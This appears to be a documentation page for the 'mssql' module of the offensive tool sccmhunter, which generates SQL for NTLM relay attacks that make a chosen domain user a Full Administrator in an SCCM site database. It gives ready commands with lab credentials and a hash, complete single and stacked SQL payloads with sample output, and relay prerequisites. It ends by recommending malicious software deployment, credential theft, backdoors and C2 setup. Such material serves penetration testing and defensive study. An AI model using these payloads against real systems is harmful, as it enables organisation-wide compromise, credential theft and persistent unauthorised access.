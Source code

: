 ```yaml
---
title: 'MSSQL Privilege Escalation (mssql)'
description: 'Generate SQL queries for NTLM relay attacks to escalate privileges in SCCM by adding users to administrative roles in the site database.'
icon: 'database'
sidebarTitle: 'MSSQL Privilege Escalation'
---
```


The `mssql` module generates SQL queries designed for use in NTLM relay attacks against SCCM site databases. By executing these queries against the SCCM database, attackers can elevate domain users to SCCM administrative roles, effectively granting full control over the SCCM infrastructure.

<Warning>
This module generates SQL queries for privilege escalation. The queries must be executed through NTLM relay attacks or direct database access. This represents a critical privilege escalation vector in SCCM environments.
</Warning>

## Attack Overview

The MSSQL privilege escalation attack works by:

1. **User SID Resolution**: Converting the target username to its corresponding SID
2. **Query Generation**: Creating SQL statements to add the user to SCCM administrative roles
3. **Role Assignment**: Granting Full Administrator permissions with appropriate scope access
4. **RBAC Configuration**: Setting up Role-Based Access Control permissions

<Info>
This attack leverages SCCM's Role-Based Access Control (RBAC) system to grant administrative privileges. The generated queries can be used in NTLM relay attacks against SQL servers hosting SCCM databases.
</Info>

## SCCM Role-Based Access Control

<Card title="Understanding SCCM RBAC" icon="users">
SCCM uses a sophisticated RBAC system with three key components:

- **Administrative Users**: Users or groups with SCCM permissions
- **Security Roles**: Predefined permission sets (Full Administrator, etc.)
- **Security Scopes**: Define what objects the user can manage
</Card>

## Prerequisites

<Card title="Requirements" icon="checklist">
- Valid Active Directory credentials for SID resolution
- Target user account to elevate privileges for
- SCCM site code for the target environment
- NTLM relay capability against SCCM SQL servers
- Network access to domain controller for SID resolution
</Card>

## Command Syntax

<CodeGroup>
```bash Command Format
python3 sccmhunter.py mssql [OPTIONS]
```

```bash Individual Queries
python3 sccmhunter.py mssql -u administrator -p P@ssw0rd -d internal.lab -dc-ip 10.10.100.100 -tu lowpriv -sc LAB
```

```bash Stacked Query (Single Command)
python3 sccmhunter.py mssql -u administrator -p P@ssw0rd -d internal.lab -dc-ip 10.10.100.100 -tu lowpriv -sc LAB -stacked
```
</CodeGroup>

## Parameters

<Accordion title="Required Parameters">
| Parameter | Description | Example |
|-----------|-------------|---------|
| `-d` | Target domain name | `internal.lab` |
| `-dc-ip` | Domain controller IP or FQDN | `10.10.100.100` |
| `-tu` | Target user to grant SCCM admin privileges | `lowpriv` |
| `-sc` | SCCM site code for privilege assignment | `LAB` |
</Accordion>

<Accordion title="Authentication Options">
| Parameter | Description | Example |
|-----------|-------------|---------|
| `-u` | Username for authentication | `administrator` |
| `-p` | Password for authentication | `P@ssw0rd` |
| `-hashes` | NT:LM hash for authentication | `aad3b435b51404ee:5fbc3d5fec8206a30f4b6c473d68ae76` |
| `-k` | Use Kerberos authentication | |
| `-no-pass` | Don't prompt for password | |
| `-aes` | AES key for Kerberos (128/256 bits) | |
| `-ldaps` | Use LDAPS instead of LDAP | |
</Accordion>

<Accordion title="Query Generation Options">
| Parameter | Description | Use Case |
|-----------|-------------|----------|
| `-stacked` | Generate single stacked query | NTLM relay attacks requiring single query execution |
| `-debug` | Enable verbose logging | Troubleshooting and detailed output |
</Accordion>

<Warning>
The `-stacked` flag combines all privilege escalation queries into a single SQL statement, which is essential for NTLM relay attacks that only allow one query execution.
</Warning>

## Usage Examples

<Accordion title="Individual Query Generation for Step-by-Step Execution">
**Generate separate SQL queries for manual execution or multi-step NTLM relay attacks**

```bash
python3 sccmhunter.py mssql -u administrator -p P@ssw0rd -d internal.lab -dc-ip 10.10.100.100 -tu lowpriv -sc LAB
```

**Expected Output:**
```
[22:52:14] INFO     [*] Resolving lowpriv SID...
[22:52:14] INFO     [*] Converted lowpriv SID to 0x0105000000000005150000005407A9EE65B1F9B01FFF385E59040000
[22:52:14] INFO     [*] Use the following to add lowpriv as a Site Server Admin.

use CM_LAB
INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite)
VALUES (0x0105000000000005150000005407A9EE65B1F9B01FFF385E59040000,'LAB\lowpriv',0,0,'','','','','LAB');
SELECT AdminID,LogonName FROM RBAC_Admins;

[*] Enter AdminID:12345

INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (12345,'SMS0001R','SMS00ALL','29');
INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (12345,'SMS0001R','SMS00001','1');
INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES (12345,'SMS0001R','SMS00004','1');
```

<Info>
Individual queries require interactive input to provide the AdminID returned from the first query. This approach is useful for manual SQL execution or when you have interactive access to the database.
</Info>
</Accordion>

<Accordion title="Stacked Query Generation for NTLM Relay Attacks">
**Generate a single SQL statement combining all privilege escalation steps**

```bash
python3 sccmhunter.py mssql -u administrator -p P@ssw0rd -d internal.lab -dc-ip 10.10.100.100 -tu lowpriv -sc LAB -stacked
```

**Expected Output:**
```
[22:55:05] INFO     [*] Resolving lowpriv SID...
[22:55:05] INFO     [*] Converted lowpriv SID to 0x0105000000000005150000005407A9EE65B1F9B01FFF385E59040000
[22:55:05] INFO     [*] Use the following to add lowpriv as a Site Server Admin.

USE CM_LAB;
INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite)
VALUES (0x0105000000000005150000005407A9EE65B1F9B01FFF385E59040000,'LAB\lowpriv',0,0,'','','','','LAB');
INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID)
VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'LAB\lowpriv'),'SMS0001R','SMS00ALL','29');
INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID)
VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'LAB\lowpriv'),'SMS0001R','SMS00001','1');
INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID)
VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'LAB\lowpriv'),'SMS0001R','SMS00004','1');
```

<Warning>
The stacked query approach is essential for NTLM relay attacks where only one SQL command can be executed. It uses subqueries to automatically retrieve the AdminID, eliminating the need for interactive input.
</Warning>
</Accordion>

## Understanding the SQL Queries

<Card title="RBAC Database Tables" icon="table">
The generated queries modify three key SCCM database tables:

- **RBAC_Admins**: Stores administrative users and their basic information
- **RBAC_ExtendedPermissions**: Links admins to roles and scopes
- **Site-specific scope assignments**: Grants access to different SCCM objects
</Card>

<Accordion title="Query Breakdown">
**1. RBAC_Admins Table Insert**
- Adds the target user as an SCCM administrative user
- Converts domain\username format for SCCM compatibility
- Uses the resolved SID for proper identification

**2. RBAC_ExtendedPermissions Assignments**
- `SMS0001R`: Full Administrator role (highest privileges)
- `SMS00ALL`: All Systems scope (access to all objects)
- `SMS00001`: All Systems Collection scope
- `SMS00004`: Default scope for collections

**3. Role and Scope Combinations**
- Each permission links an admin to a role within a specific scope
- Multiple scopes ensure comprehensive access across the SCCM environment
</Accordion>

## Attack Integration

<CardGroup cols={2}>
<Card title="NTLM Relay Prerequisites" icon="link">
**Required for Attack Success:**
- SMB signing disabled on SQL servers
- SCCM SQL server accessible via NTLM
- Account with NTLM relay capability
- Network position for man-in-the-middle attacks
</Card>

<Card title="Post-Exploitation Benefits" icon="crown">
**Gained Capabilities:**
- Full SCCM administrative access
- Software deployment to all systems
- Operating system deployment control
- Access to all SCCM credentials and secrets
</Card>
</CardGroup>

## Verification and Testing

<Accordion title="Confirming Privilege Escalation Success">
**After Query Execution:**
1. Log into SCCM console with elevated account
2. Verify administrative role assignment in RBAC settings
3. Test software deployment capabilities
4. Confirm access to administrative functions

**SCCM Console Access:**
- Navigate to `Administration > Security > Administrative Users`
- Verify the target user appears with Full Administrator role
- Test creating and deploying applications or task sequences
</Accordion>

## Next Steps

<CardGroup cols={3}>
<Card title="SCCM Administration" icon="cogs">
**Leverage Full Access:**
- Deploy malicious software packages
- Extract additional credentials
- Lateral movement via client push
- Operating system deployment abuse
</Card>

<Card title="DPAPI Extraction" icon="lock" href="/sccmhunter-docs/exploitation/dpapi">
Use SCCM admin access to extract secrets from client systems
</Card>

<Card title="Persistence" icon="shield">
**Maintain Access:**
- Create additional admin accounts
- Deploy persistent backdoors
- Establish C2 infrastructure
- Document infrastructure for future access
</Card>
</CardGroup>
